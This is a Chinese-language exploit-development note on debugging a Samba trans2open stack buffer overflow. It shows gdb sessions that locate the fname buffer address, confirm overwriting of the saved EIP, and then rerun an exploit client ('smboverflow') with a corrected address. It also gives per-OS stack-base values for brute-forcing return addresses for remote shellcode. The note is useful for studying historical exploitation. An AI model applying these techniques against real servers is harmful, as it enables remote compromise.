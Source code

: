 ☆ 漏洞调试技巧

漏洞调试技巧比较杂乱，仅仅作为笔记、备忘出现，非正式文档。

1) 在Debian/Linux中利用gdb确认fname_address

在Debian上执行"smbd -D"启动Samba Server。由于smbd采用父子进程处理方式，不
要直接调试父进程，gdb在fork()分叉处"直接跟随"子进程时有问题。变通的办法有
很多，先用"gdb ./smboverflow"启动客户端，在发送TRANSACT2_OPEN报文之前设置
一个断点，然后"r -d 192.168.7.148 -f 0xbffff000"执行客户端。客户端会中断在
预设断点处。如果客户端源代码可控，也可不用gdb启动客户端，程序自己控制在何
处暂停一下。

对于服务端，由于已经建立空会话，子进程出现，"ps auwx | grep smbd"找出子进
程PID，执行"gdb smbd <pid>"调试子进程。Debian自带smbd的所有符号信息都被去
除，"disas main"也会失败。执行"backtrace"查看堆栈回溯时，所出现的符号信息
绝不可信(已经乱套了)，只能相信地址本身。

由于事先在RedHat/Linux上编译、调试过Samba Server源码，已经有一些初步知识，
fname[1024]在栈区，fname_address位于[0xbffff000,0xbffffff0]之间的可能性极
大，位于[0xbfffe000,0xbffff000]之间的可能性极小。察看服务端当前栈帧:

(gdb) i r esp ebp
esp            0xbffff794       0xbffff794
ebp            0xbffff85c       0xbffff85c

fname_address应该低于0xbffff794，在0xbffff400处设置监视点:

(gdb) x/wx 0xbffff400
0xbffff400:     0x0804c086
(gdb) watch (*(unsigned int *)0xbffff400==0x90909090)
(gdb) c

执行"StrnCpy( fname, pname, namelen );"时，fname[]中出现大量0x90(NOP指令)。
假设0xbffff400位于fname[]中部，执行Strncpy()时，该处的值将变成0x90909090，
监视点被命中，程序就会中断下来。watch与SoftICE中的BPM类似，使用DR0-DR3调试
寄存器，属于硬件断点。

现在回到客户端，执行"c"，发送TRANSACT2_OPEN报文。

服务端由于监视点被命中而中断下来:

(gdb) x/wx 0xbffff400
0xbffff400:     0x90909090
(gdb) x/10i $eip
0x8113d69 <chroot+820525>:      inc    %ecx
0x8113d6a <chroot+820526>:      inc    %edx
0x8113d6b <chroot+820527>:      test   %al,%al
0x8113d6d <chroot+820529>:      jne    0x8113d60 <chroot+820516>
0x8113d6f <chroot+820531>:      movb   $0x0,(%edx)
0x8113d72 <chroot+820534>:      mov    %esi,%eax
0x8113d74 <chroot+820536>:      pop    %ebx
0x8113d75 <chroot+820537>:      pop    %esi
0x8113d76 <chroot+820538>:      leave
0x8113d77 <chroot+820539>:      ret
(gdb)

显然这在Strncpy()函数中，不要相信此时的符号信息。查看其返回地址、各个形参:

(gdb) x/4wx $ebp+4
0xbffff340:     0x0806e65b      0xbffff3fc      0x0820518c      0x00000449

已经找出fname_address，就是0xbffff3fc。查看call_trans2open()的栈帧:

(gdb) x/wx $ebp
0xbffff33c:     0xbffff7fc

0xbffff7fc是call_trans2open()中EBP寄存器的值。注意，fname_address加上1024
字节就等于0xbffff7fc了。这与前面所绘内存布局图有出入，中间那些局部变量不见
了，比如namelen、pname等等。

这里介绍另一个技巧，如何进行内存搜索:

(gdb) define find <start> <end> <step> <count> <value>  <- 尖括号部分不要输入
set $count=0
set $find_result=$arg0
while ((((unsigned int)$count)<((unsigned int)$arg3))&&(((unsigned int)$find_result)<=((unsigned int)$arg1)))
    if (*(unsigned int *)$find_result==$arg4)
        set $count=$count+1
        x/wx $find_result
    end
    set $find_result=$find_result+$arg2
end
end
(gdb) find 0xbffff000 0xbfffff00 4 16 0x90909090  <- 后面直接使用find就可以了
0xbffff3fc:     0x90909090
0xbffff400:     0x90909090
(gdb) find 0xbffff000 0xbfffff00 4 8 0x0820518c  <- 搜索pname变量位置
0xbffff348:     0x0820518c

OpenBSD 3.0自带的gdb 4.16.1要求我们必须对参与大小比较的各个变量进行强制类
型转换，否则行为怪异，达不到预期目的。高版本的gdb不再需要进行强制类型转换，
为了保持向后兼容性，这里仍然使用了强制类型转换。

0xbffff348是Strncpy()的形参位置。按常规理解应该还有一处地址存放0x0820518c，
那才是pname变量位置，但现在没找到。查看0x0806e65b前后的指令并对照trans2.c
源码，发现局部变量pname只在Strncpy()处使用了一次，很可能Debian中编译smbd时
打开了优化开关，导致pname只以寄存器变量形式出现，未出现在call_trans2open()
的栈帧中。这与RedHat的情形不一样，以后编写、调试exploit code时，应该注意类
似问题。

不断执行"x/20i 0x0806e65b"，直至找到类似这样的汇编代码序列:

0x806e962 <chroot+143654>:      pop    %ebx
0x806e963 <chroot+143655>:      pop    %esi
0x806e964 <chroot+143656>:      pop    %edi
0x806e965 <chroot+143657>:      leave
0x806e966 <chroot+143658>:      ret

最后的ret指令就是call_trans2open()的最后一条返回指令，在此设置断点:

(gdb) delete 1
(gdb) b *0x806e966
Breakpoint 2 at 0x806e966
(gdb) c
Continuing.

Breakpoint 2, 0x0806e966 in chroot ()
(gdb) x/5wx $esp-4
0xbffff7fc:     0xbffff0d0      0xbffff1b0      0xbffff0d0      0xbffff1b0
0xbffff80c:     0xbffff0d0

Original EBP、Original EIP、outbuf均被覆盖。由于客户端猜测的fname_address
是0xbffff000，因此Original EIP被覆盖成0xbffff1b0。而实际的fname_address从
0xbffff3fc开始，0xbffff1b0在NOP区外(内存低端)，此次攻击必然失败。

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xbffff215 in ?? ()
(gdb)

现在回到客户端，执行"./smboverflow -d 192.168.7.148 -f 0xbffff3fc"即可溢出
成功。

这次我们运气好，设置watch监视点时正好位于fname[]中，一次命中。如果未命中，
也不要紧，等收到SIGSEGV信号后用find找出NOP区，再来一次就可以了。

当然在真实攻击中，我们不可能去目标主机上运行gdb，介绍上述技巧的目的只是便
于编写、调试exploit code，确定从何处开始暴力猜测fname_address等等。

这种技术同样适用于x86/FreeBSD，其fname_address应该从0xbfbff000开始暴力猜测。
对于x86/Solaris，其fname_address应该从0x08047000开始暴力猜测。这些值有一个
共同的特点，等于各自系统的栈底减去0x1000:

x86/Linux           栈底是0xc0000000 (栈底往低地址的4个字节总是零)
SPARC/Solaris 7/8   栈底是0xffbf0000 (栈底往低地址的4个字节总是零)
SPARC/Solaris 2.6   栈底是0xf0000000 (栈底往低地址的4个字节总是零)
x86/Solaris 8       栈底是0x08048000
x86/FreeBSD         栈底是0xbfc00000 (栈底往低地址的4个字节总是零)
x86/NetBSD 1.5      栈底是0xbfbfe000
x86/OpenBSD 2.8/3.0 栈底是0xdfbfe000

编写smboverflow.c的工作简化成两步，调试出各个平台的远程shellcode，利用"2.4
如何编程获取栈底地址"中gstack.c获取栈底地址并减去0x1000作为暴力猜测的起始
地址。